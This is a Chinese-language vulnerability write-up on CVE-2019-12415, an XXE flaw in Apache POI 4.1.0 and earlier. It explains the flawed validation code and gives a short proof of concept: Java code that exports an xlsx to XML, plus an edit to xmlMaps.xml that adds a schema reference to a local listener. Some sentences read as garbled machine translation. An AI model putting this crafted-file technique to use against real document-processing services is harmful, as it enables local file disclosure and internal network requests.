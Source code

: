 # （CVE-2019-12415）Apache POI <= 4.1.0 XXE 漏洞

> 原文：[http://book.iwonder.run/0day/Apache/3.html](http://book.iwonder.run/0day/Apache/3.html)

## 一、漏洞简介

### 什么是 POI

Apache POI 是 Apache 软件基金会的开放源码函式库，POI 提供 API 给 Java 程序对 Microsoft Office 格式档案读和写的功能。

### 关于 CVE-2019-12415

这是最近的 POI 官方宣布出来的一个 XXE 漏洞，可以影响到 4.1.0 版本，官方已在十天前更新了 4.1.1 版本，最新版本修复了这个 XXE 漏洞。

在最高 4.1.0 的 Apache POI 中，当使用工具 XSSFExportToXml 转换用户提供的 Microsoft Excel 文档时，特制文档可允许攻击者通过 XML 外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml 类 xlsx 转 xml 时触发的。

diff 了一下 4.1.0 和 4.1.1 XSSFExportToXml 类的原始代码，发现在 isValid 方法里多设置了一个功能。

问题就出在 XSSFExportToXml#isValid 方法里，如果 XSSFExportToXml#exportToXML 方法的第三个参数为 true 逐步进入 isValid 触发 XXE。

![image](img/072c731386abac07d2edcaaba654277b.png)

## 二、漏洞影响

Apache POI<=4.1.0

## 三、复现过程

```
XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true} 
```

然后下载这个 xlsx 文件。

```
https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx 
```

把文件替换为“ CustomXMLMappings.zip”并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 <schema>标签里面加上一行代码。</schema>

```
<xsd:redefine schemaLocation="http://127.0.0.1:8080/"/> 
```

![image](img/99a0913e7b2b4c2e67320a2f35d81362.png)

然后把 xlsx 释放出来的所有文件再用 zip 打包回去，改成 CustomXMLMappings.xlsx。

最后一步监听本地 8080 端口，运行 POC。 ![image](img/c92d0dfc0c04be99590f9d959eb95686.png)

